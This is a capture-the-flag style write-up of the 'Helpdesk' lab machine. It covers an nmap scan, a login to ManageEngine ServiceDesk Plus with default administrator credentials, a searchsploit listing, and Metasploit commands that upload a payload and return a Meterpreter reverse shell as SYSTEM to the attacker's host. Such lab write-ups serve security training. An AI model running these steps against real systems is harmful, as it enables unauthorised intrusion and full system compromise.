 # Helpdesk

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.43 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:37 +08
Nmap scan report for 192.168.201.43
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

RDP is available.

### ManageEngine RCE --> SYSTEM

Port 8080 hosts a really vulnerable looking software:

<figure><img src="../../../.gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Default creds of `administrator:administrator` works in logging us in:

<figure><img src="../../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

There are loads of vulnerabilities with this software.&#x20;

```
$ searchsploit manageengine servicedesk Plus  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ManageEngine ServiceDesk Plus 7.6 - woID SQL Injection     | jsp/webapps/11793.txt
ManageEngine ServiceDesk Plus 8.0 - Directory Traversal    | jsp/webapps/17437.txt
ManageEngine ServiceDesk Plus 8.0 - Multiple Persistent Cr | jsp/webapps/17713.txt
ManageEngine ServiceDesk Plus 8.0 Build 8013 - Multiple Cr | jsp/webapps/17586.txt
ManageEngine ServiceDesk Plus 8.0.0 Build 8013 - Improper  | multiple/webapps/17572.txt
ManageEngine ServiceDesk Plus 8.1 - Persistent Cross-Site  | windows/webapps/20356.py
ManageEngine ServiceDesk Plus 9.0 - Authentication Bypass  | java/webapps/42037.txt
ManageEngine ServiceDesk Plus 9.0 - SQL Injection          | jsp/webapps/35890.txt
ManageEngine ServiceDesk Plus 9.0 - User Enumeration       | jsp/webapps/35891.txt
ManageEngine ServiceDesk Plus 9.0 < Build 9031 - User Priv | jsp/webapps/35904.txt
ManageEngine ServiceDesk Plus 9.1 build 9110 - Directory T | jsp/webapps/38395.txt
ManageEngine ServiceDesk Plus 9.2 Build 9207 - Unauthorize | java/webapps/40569.txt
ManageEngine ServiceDesk Plus 9.3 - User Enumeration       | java/webapps/46674.txt
Zoho ManageEngine ServiceDesk Plus (SDP) < 10.0 build 1001 | jsp/webapps/46413.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'PurchaseRequest. | java/webapps/46966.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SearchN.do' Cros | java/webapps/46965.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SiteLookup.do' C | java/webapps/46963.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SolutionSearch.d | java/webapps/46964.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - Cross-Site Script | multiple/webapps/46895.txt
Zoho ManageEngine ServiceDesk Plus < 10.5 - Improper Acces | multiple/webapps/46894.txt
Zoho ManageEngine ServiceDesk Plus MSP 9.4 - User Enumerat | java/webapps/50027.py
----------------------------------------------------------- ---------------------------------
```

I was lazy, so I used `msfconsole` to exploit this easily.&#x20;

```
msf6 exploit(multi/http/manageengine_auth_upload) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(multi/http/manageengine_auth_upload) > set PASSWORD administrator
PASSWORD => administrator
msf6 exploit(multi/http/manageengine_auth_upload) > set LHOST tun0
LHOST => 192.168.45.191
msf6 exploit(multi/http/manageengine_auth_upload) > set RHOSTS 192.168.201.43
RHOSTS => 192.168.201.43
msf6 exploit(multi/http/manageengine_auth_upload) > exploit
```

This would give us a Meterpreter shell as the SYSTEM user:

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
